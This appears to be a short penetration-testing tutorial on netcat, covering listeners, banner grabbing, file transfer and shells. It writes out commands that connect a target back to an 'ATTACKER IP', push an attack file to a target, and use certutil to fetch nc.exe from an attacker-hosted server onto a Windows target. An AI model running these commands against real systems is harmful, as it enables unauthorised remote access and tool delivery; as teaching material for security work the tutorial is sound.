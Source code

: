 # Fundamentals of Netcat
`netcat` is a networking utility used to read and write data to network connections using TCP or UDP. They can be used to connect to a target port as well listen for incoming connection in a port.

They are used by prn testers to perform:
1. Banner Grabbing
2. Port Scanning
3. Transferring Files
4. Spawn Bind/Reverse Shells

#### SETTING UP A NETCAT LISTENER:

```
nc -nvlp "LOCAL PORT"
```
#### CONNECTING FROM THE TARGET:

```
nc -v "ATTACKER IP" "PORT"
```

#### TRANSFERRING FILES TO TARGET:

```
#ON TARGET SYSTEM
nc -nvlp "LOCAL PORT" > attackfile.txt

#ON LOCAL ATTACK MACHINE
nc -nv "TARGET IP" "TARGET PORT" < attackfile.txt  
```

#### HOW TO TRANSFER NETCAT.EXE TO WINDOWS TARGET:

1. Navigate to `/usr/share/windows-resources/binaries` directory.
2. Then Host the current directory using a Python HTTP Server

```
python3 -m http.server 80
```

3. Now on the target side download the `nc.exe` file using:

```
certutil -urlcache -f http://"ATTACKER IP"/nc.exe netcat.exe
```